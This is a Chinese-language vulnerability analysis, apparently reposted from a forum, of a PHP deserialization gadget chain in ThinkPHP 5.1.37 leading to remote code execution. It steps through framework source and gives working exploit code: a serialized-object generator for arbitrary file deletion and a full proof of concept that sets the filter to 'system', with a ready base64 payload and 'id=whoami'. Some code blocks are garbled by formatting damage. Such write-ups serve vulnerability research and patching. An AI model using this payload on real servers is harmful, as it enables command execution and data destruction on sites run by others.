




# Thinkphp 5.1.37 反序列化漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3177](https://www.zhihuifly.com/t/topic/3177)

# Thinkphp 5.1.37 反序列化漏洞

## 一、漏洞简介

所有Thinkphp版本下载链接

https://packagist.org/packages/topthink/framework

## 二、漏洞影响

## 三、复现过程

### 环境搭建

```
composer create-project topthink/think=5.1.37 v5.1.37 
```

### poc演示截图


### 调用链



### 单步调试

漏洞起点在\thinkphp\library\think\process\pipes\windows.php的__destruct魔法函数。

```
public function __destruct()
{
    $this->close();
    $this->removeFiles();
} 
```

```
private function removeFiles()
{
    foreach ($this->files as $filename) {
        if (file_exists($filename)) {
            @unlink($filename);
        }
    }
    $this->files = [];
} 
```

这里同时也存在一个任意文件删除的漏洞，exp如下

```
<?php
namespace think\process\pipes;
class Pipes{
}

class Windows extends Pipes

{

private $files = [];

```
public function __construct()
{
    $this-&gt;files=['C:\FakeD\Software\phpstudy\PHPTutorial\WWW\shell.php'];
} 
```

} `echo base64_encode(serialize(new Windows()));` 
```

这里$filename会被当做字符串处理，而__toString 当一个对象被反序列化后又被当做字符串使用时会被触发，我们通过传入一个对象来触发__toString 方法。


```
//thinkphp\library\think\model\concern\Conversion.php
public function __toString()
{
    return $this->toJson();
} 
```

```
//thinkphp\library\think\model\concern\Conversion.php
public function toJson($options = JSON_UNESCAPED_UNICODE)
{
    return json_encode($this->toArray(), $options);
} 
```

```
//thinkphp\library\think\model\concern\Conversion.php
public function toArray()
{
    $item       = [];
    $hasVisible = false;
    ...
    if (!empty($this->append)) {
    foreach ($this->append as $key => $name) {
       if (is_array($name)) {
         // 追加关联对象属性
         $relation = $this->getRelation($key);

```
 if (!$relation) {
      $relation = $this-&gt;getAttr($key);
      if ($relation) {
          $relation-&gt;visible($name);
      }
     }
... 
``` `}` 
```

```
//thinkphp\library\think\model\concern\Attribute.php
public function getAttr($name, &$item = null)
{
    try {
        $notFound = false;
        $value    = $this->getData($name);
    } catch (InvalidArgumentException $e) {
        $notFound = true;
        $value    = null;
    }
    。。。
    return $value;
} 
```

```
//thinkphp\library\think\model\concern\Attribute.php
public function getData($name = null)
{
    if (is_null($name)) {
       return $this->data;
    } elseif (array_key_exists($name, $this->data)) {
       return $this->data[$name];
    } elseif (array_key_exists($name, $this->relation)) {
       return $this->relation[$name];
    }
    throw new InvalidArgumentException('property not exists:' . static::class . '->' . $name);
} 
```

这里的$this->append是我们可控的，然后通过getRelation($key)，但是下面有一个!$relation,所以我们只要置空即可，然后调用getAttr($key),在调用getData($name)函数，这里$this->data['name']我们可控，之后回到toArray函数，通过这一句话$relation->visible($name); 我们控制$relation为一个类对象，调用不存在的visible方法，会自动调用__call方法，那么我们找到一个类对象没有visible方法，但存在__call方法的类，这里


可以看到这里有一个我们熟悉的回调函数call_user_func_array，但是这里有一个卡住了，就是array_unshift，这个函数把request对象插入到数组的开头，虽然这里的this->hook[$method]我们可以控制，但是构造不出来参数可用的payload，因为第一个参数是$this对象。

目前我们所能控制的内容就是



也就是我们能调用任意类的任意方法。

下面我们需要找到我们想要调用的方法，参考我之前分析的thinkphp-RCE的文章thinkphp-RCE漏洞分析,最终产生rce的地方是在input函数当中，那我们这里可否直接调用input方法呢，刚刚上面已经说了，参数已经固定死是request类，那我们需要寻找不受这个参数影响的方法。这里采用回溯的方法

```
public function input($data = [], $name = '', $default = null, $filter = '')
{
    if (false === $name) {
       // 获取原始数据
       return $data;
    }

```
$name = (string) $name;
if ('' != $name) {
   // 解析name
   if (strpos($name, '/')) {
     list($name, $type) = explode('/', $name);
   }

   $data = $this-&gt;getData($data, $name);

   if (is_null($data)) {
     return $default;
   }

   if (is_object($data)) {
     return $data;
   }
}

// 解析过滤器
$filter = $this-&gt;getFilter($filter, $default);

if (is_array($data)) {
   array_walk_recursive($data, [$this, 'filterValue'], $filter);
   if (version_compare(PHP_VERSION, '7.1.0', '&lt;')) {
            // 恢复PHP版本低于 7.1 时 array_walk_recursive 中消耗的内部指针
            $this-&gt;arrayReset($data);
        }
 } else {
    $this-&gt;filterValue($data, $name, $filter);
 }
 。。。 
``` 
```

```
protected function getFilter($filter, $default)
{
    if (is_null($filter)) {
       $filter = [];
    } else {
       $filter = $filter ?: $this->filter;
       if (is_string($filter) && false === strpos($filter, '/')) {
         $filter = explode(',', $filter);
       } else {
         $filter = (array) $filter;
       }
    }

    $filter[] = $default;

    return $filter;
} 
```

```
protected function getData(array $data, $name)
{
    foreach (explode('.', $name) as $val) {
       if (isset($data[$val])) {
         $data = $data[$val];
       } else {
         return;
       }
    }

    return $data;
} 
```

这里$filter可控，data参数不可控，而且$name = (string) $name;这里如果直接调用input的话，执行到这一句的时候会报错，直接退出，所以继续回溯，目的是要找到可以控制$name变量，使之最好是字符串。同时也要找到能控制data参数



```
public function param($name = '', $default = null, $filter = '')
{
    if (!$this->mergeParam) {
       $method = $this->method(true);

```
 // 自动获取请求变量
   switch ($method) {
     case 'POST':
      $vars = $this-&gt;post(false);
      break;
     case 'PUT':
     case 'DELETE':
     case 'PATCH':
      $vars = $this-&gt;put(false);
      break;
     default:
      $vars = [];
   }

   // 当前请求参数和URL地址中的参数合并
   $this-&gt;param = array_merge($this-&gt;param, $this-&gt;get(false), $vars, $this-&gt;route(false));

   $this-&gt;mergeParam = true;
}

if (true === $name) {
   // 获取包含文件上传信息的数组
   $file = $this-&gt;file();
   $data = is_array($file) ? array_merge($this-&gt;param, $file) : $this-&gt;param;

   return $this-&gt;input($data, '', $default, $filter);
}

return $this-&gt;input($this-&gt;param, $name, $default, $filter); 
``` `}` 
```

```
array_merge($this->param, $this->get(false), $vars, $this->route(false)); 
```

```
public function get($name = '', $default = null, $filter = '')
{
    if (empty($this->get)) {
       $this->get = $_GET;
    }

    return $this->input($this->get, $name, $default, $filter);
} 
```

```
public function route($name = '', $default = null, $filter = '')
{
    return $this->input($this->route, $name, $default, $filter);
} 
```

```
public function input($data = [], $name = '', $default = null, $filter = '')
{
    if (false === $name) {
       // 获取原始数据
       return $data;
    }
    ...
} 
```

可以看到这里this->param完全可控，是通过get传参数进去的，那么也就是说input函数中的$data参数可控，也就是call_user_func的$value,现在差一个条件，那就是name是字符串，继续回溯。

```
public function isAjax($ajax = false)
{
    $value  = $this->server('HTTP_X_REQUESTED_WITH');
    $result = 'xmlhttprequest' == strtolower($value) ? true : false;

```
if (true === $ajax) {
   return $result;
}

$result           = $this-&gt;param($this-&gt;config['var_ajax']) ? true : $result;
$this-&gt;mergeParam = false;
return $result; 
``` `}` 
```

可以看到这里$this->config['var_ajax']可控，那么也就是name可控，所有条件聚齐。成功导致rce。



补充：

```
<?php

function filterValue(&$value,$key,$filters){

if (is_callable($filters)) {

// 调用函数或者方法过滤

$value = call_user_func($filters, $value);

}

return $value;

} `$data = array(‘input’=>“asdfasdf”,‘id’=>‘whoami’);

array_walk_recursive($data, “filterValue”, “system”);` 
```


### poc v5.1.37

```
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["ethan"=>["dir","calc"]];
        $this->data = ["ethan"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       => '_method',
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         => '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     => 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   => '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  => '',
        // HTTPS代理标识
        'https_agent_name' => '',
        // IP代理获取标识
        'http_agent_ip'    => 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  => 'html',
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>''];
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}
namespace think\process\pipes;

use think\model\concern\Conversion;

use think\model\Pivot;

class Windows

{

private $files = [];

```
public function __construct()
{
    $this-&gt;files=[new Pivot()];
} 
```

}

namespace think\model;

use think\Model; `class Pivot extends Model

{

}

use think\process\pipes\Windows;

echo base64_encode(serialize(new Windows()));

/*input=TzoyNzoidGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzIjoxOntzOjM0OiIAdGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzAGZpbGVzIjthOjE6e2k6MDtPOjE3OiJ0aGlua1xtb2RlbFxQaXZvdCI6Mjp7czo5OiIAKgBhcHBlbmQiO2E6MTp7czo1OiJldGhhbiI7YToyOntpOjA7czozOiJkaXIiO2k6MTtzOjQ6ImNhbGMiO319czoxNzoiAHRoaW5rXE1vZGVsAGRhdGEiO2E6MTp7czo1OiJldGhhbiI7TzoxMzoidGhpbmtcUmVxdWVzdCI6Mzp7czo3OiIAKgBob29rIjthOjE6e3M6NzoidmlzaWJsZSI7YToyOntpOjA7cjo5O2k6MTtzOjY6ImlzQWpheCI7fX1zOjk6IgAqAGZpbHRlciI7czo2OiJzeXN0ZW0iO3M6OToiACoAY29uZmlnIjthOjE6e3M6ODoidmFyX2FqYXgiO3M6MDoiIjt9fX19fX0=&id=whoami*/

?>` 
```